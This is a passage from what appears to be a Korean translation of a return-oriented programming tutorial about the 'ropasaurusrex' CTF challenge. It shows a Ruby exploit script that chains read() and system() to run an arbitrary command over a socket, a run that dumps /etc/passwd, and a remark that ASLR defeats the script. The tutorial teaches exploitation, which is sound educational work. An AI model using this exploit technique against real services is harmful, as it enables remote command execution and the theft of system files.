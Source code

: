 ``` ruby
  [
    # system()'s stack frame
    buf,         # writable memory (cmd buf)
    0x44444444,  # system()'s return address

    # pop/pop/pop/ret's stack frame
    system_addr, # pop/pop/pop/ret's return address

    # read()'s stack frame
    cmd.length,  # number of bytes
    buf,         # writable memory (cmd buf)
    0,           # stdin
    pppr_addr,   # read()'s return address

    read_addr # Overwrite the original return
  ].reverse.pack("I*") # Convert a series of 'ints' to a string

# Write the 'exploit' payload
s.write(payload)

# When our payload calls read() the first time, this is read
s.write(cmd)

# Read the response from the command and print it to the screen
puts(s.read)

# Clean up
s.close()
```


그리고 실행하게 되면, 예상한 결과를 얻습니다.

``` sh
$ ruby sploit.rb "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
...
```


그리고 [코어 덤프][core dump]를 보면, 예상한 대로 `0x44444444`에서 크래시를
일으키고 있습니다.

[core dump]: https://en.wikipedia.org/wiki/Core_dump


끝났습니다. 그렇죠?


실은 아닙니다!


이 취약점 공격 스크립트는 제 테스트 기기에서 완벽하게 작동하지만, ASLR이
적용되었다면 실패합니다.

``` sh
$ sudo sysctl -w kernel.randomize_va_space=1
kernel.randomize_va_space = 1
ron@debian-x86 ~ $ ruby sploit.rb "cat /etc/passwd"
```


[SkullSecurity]: https://blog.skullsecurity.org
[Ron Bowes]: https://blog.skullsecurity.org/author/ron
[external-url]: https://blog.skullsecurity.org/2013/ropasaurusrex-a-primer-on-return-oriented-programming
[hindsight]: http://knowyourmeme.com/memes/captain-hindsight
[cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization
[ROP]: https://en.wikipedia.org/wiki/Return-oriented_programming
[my writeup of cnot]: https://blog.skullsecurity.org/blog/2013/epic-cnot-writeup-plaidctf
[return into libc]: https://en.wikipedia.org/wiki/Return-to-libc_attack
[DEP]: https://en.wikipedia.org/wiki/Data_Execution_Prevention
[return]: https://en.wikipedia.org/wiki/Return_statement
[stack]: https://en.wikipedia.org/wiki/Call_stack
[my assembly tutorial]: https://blog.skullsecurity.org/wiki/index.php/The_Stack
[Stack overflows]: https://en.wikipedia.org/wiki/Stack_overflow
[removed by the calling function]: https://en.wikipedia.org/wiki/X86_calling_conventions#cdecl
[except when they're not]: https://en.wikipedia.org/wiki/X86_calling_conventions#stdcall
[Book of Intel]: http://www.intel.com/content/www/us/en/processors/architectures-software-developer-manuals.html
[little endian]: https://en.wikipedia.org/wiki/Endianness
[0]: https://en.wikipedia.org/wiki/Zero_page
[pattern_create.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_create.rb
[pattern_offset.rb]: https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/pattern_offset.rb
[xinetd]: https://en.wikipedia.org/wiki/Xinetd
[netcat]: https://en.wikipedia.org/wiki/Netcat
[libc]: https://en.wikipedia.org/wiki/C_standard_library
[stdin and stdout]: https://en.wikipedia.org/wiki/Standard_streams
[socket]: https://en.wikipedia.org/wiki/Network_socket
[.data]: https://en.wikipedia.org/wiki/Data_segment